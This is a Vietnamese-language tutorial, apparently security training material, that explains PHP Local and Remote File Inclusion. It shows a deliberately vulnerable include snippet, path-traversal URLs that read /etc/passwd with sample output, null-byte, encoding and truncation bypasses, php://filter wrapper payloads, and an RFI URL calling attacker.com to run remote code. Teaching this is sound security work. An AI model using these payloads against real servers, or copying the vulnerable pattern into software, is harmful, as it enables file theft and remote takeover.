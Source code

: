 # LFI (File Inclusion Vulnerability)

## 1. LFI là gì
LFI là một kĩ thuật tấn công cho phép kể tấn công có thể xem các tệp tin trên máy chủ từ xa của victim mà không cần không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web.

Điều này xảy ra đa phần là các trang web có chứa ngôn ngữ PHP, các function dùng để gọi file khác vào như `require`, `include`, `include_once`, `require_once`. 

<p align="center">
  <img src="https://www.immuniweb.com/images/vulnerability/previews/php-file-inclusion-cwe-98.jpg" />
</p>
<center><small>`CWE-98 by PLOVER | Submission Date: 2006-07-19`</small></center>

Hiện nay thì các trang web ngoài sử dụng PHP còn có NodeJS và Python có khả năng lỗi ít hơn nhưng không phải là không có. Tương tự như php thì NodeJS có 1 số function như `require()`, `fs.readFile()`, `fs.readFileSync()`...
Hiện nay thì LFI/RFI được đưa vào top 10 OWASP được coi là "tiêu chuẩn" trong việc kiểm thử website.

## 2. Trong thực tế LFI được khai thác như thế nào

Trên thực tế thì có khá nhiều cách để khai thác lỗ hổng này:

Ví dụ vô cùng điển hình để đọc file passwd
```php
<?php
include $_GET['page'];
?>

```
```
http://example.com/index.php?page=../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
hyp:x:1000:1000:,,,:/home/hyp:/bin/bash
```

### a. Null byte (%00)

Null byte dùng để bypass các kí tự đằng sau nó

```php
<?php
include $_GET['page'].'.php';
?>
```

```
http://example.com/index.php?page=../../../etc/passwd%00
```
(Từ phiên bản PHP > 5.4 vấn đề này đã được giải quyét)
### b. Encoding Bypass:

Các kí tự đặc biệt có thể cần encoding URL 2 lần

```
/ => %2F => %252F
& => %26 => %2526
% => %25 => %2525
= => %3D => %253D
```
### c. Path truncation
Kĩ thuật này dùng dể bỏ qua phần nối đằng sau có kí tự nhiều hơn.

```php
<?php
include $_GET['page'].'.php';
?>
```

Ta sẽ gửi param GET vượt quá 4096 kí tự.

### d. PHP Wrapper

Điều này yêu mã code tại file muốn đọc bắt buộc phải encode theo 1 cách gì đó trước khi gửi cho người dùng (phổ biến trong CTF)

```
?page=php://filter/read=string.rot13/resource=index
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/zlib.deflate/convert.base64-encode/resource=
```

Ngoài ra còn có `zip://`, `data://`, `expect://`, ` input://`, ` phar://`,...

Demo Notepad LFI: https://lfi-kcsc-training.glitch.me

Source: [hypnguyen1209/demo-lfi](https://github.com/hypnguyen1209/demo-lfi)


## 3.RFI
Tương tự với LFI thì RFI  cho phép kẻ tấn công `include` và thực thi trên máy chủ nạm nhân 1 file được lưu trữ từ xa. 

Hacker có thể sử dụng RFI để chạy một đoạn code trên cả máy của người dùng và phía máy chủ. 

Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.

```
http://example.com/index.php?page=test
```

```php
<?php
include $_GET['page'].'.php';
?>

```

Như ví dụ LFI thay vì ta truyền tên file thì ta sẽ truyền đường dẫn chứ từ code của kẻ tấn công

```
http://example.com/index.php?page=http://attacker.com/exec
```
Khi người dùng truy cập thì lập tức mã độc trên sẽ được `include` thẳng vào code trên hệ thống vào gây là lỗi từ đó họ có thể chiếm quyền kiểm soát từ xa.

## 4. Tham khảo
https://securitydaily.net/tan-cong-file-inclusion/

https://www.immuniweb.com/vulnerability/php-file-inclusion.html

https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers
